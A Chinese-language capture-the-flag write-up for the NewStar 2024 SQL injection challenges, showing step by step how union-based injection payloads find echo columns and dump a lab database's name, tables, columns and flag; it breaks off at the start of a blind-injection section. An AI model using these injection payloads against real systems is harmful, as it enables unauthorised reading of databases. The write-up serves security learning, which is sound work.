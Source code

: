 # NewStar  2024 (SQL注入题目)
## 谢谢皮蛋
先判断sql闭合类型 在搜索框输入 <font style="color:#601BDE;">1 </font>和 <font style="color:#601BDE;">1' #</font> 发现输入 <font style="color:#601BDE;">1' # </font><font style="color:#000000;">时报错所以判断为数值型注入</font>

<font style="color:#000000;">利用联合查询寻找回显位置：</font>

<font style="color:#000000;">payload：</font>

```sql
-1 union select 1 #
-1 union select 1,2 #
-1 union select 1,2,3 #
```

发现有两个回显位置

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732541014444-f945da76-46e4-47cb-a52b-02131fc20666.png)

于是利用联合查询爆数据库名

```sql
-1 union select 1,database() #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732541084240-467ce420-6f74-4e71-886c-784d73740b46.png)

爆出库名为ctf 接着爆表名

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732541276250-51352350-facb-46b2-8768-53e955fc17d6.png)

爆出两张表为Fl4g hexo 接着爆数据库的字段名

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='Fl4g' #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732541517632-d06e2446-5616-4897-9184-0f1387f80eea.png)

爆字段名的值 发现flag

```sql
-1 union select group_concat(des),group_concat(value) from Fl4g #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732541882150-98031d7e-88bf-4bb1-ae8b-9a29a0ad7582.png)

## blindsql1
题目是利用输入名字搜索  名字后加引号后加 <font style="color:#601BDE;">and 1=1 #</font>发现空格被过滤
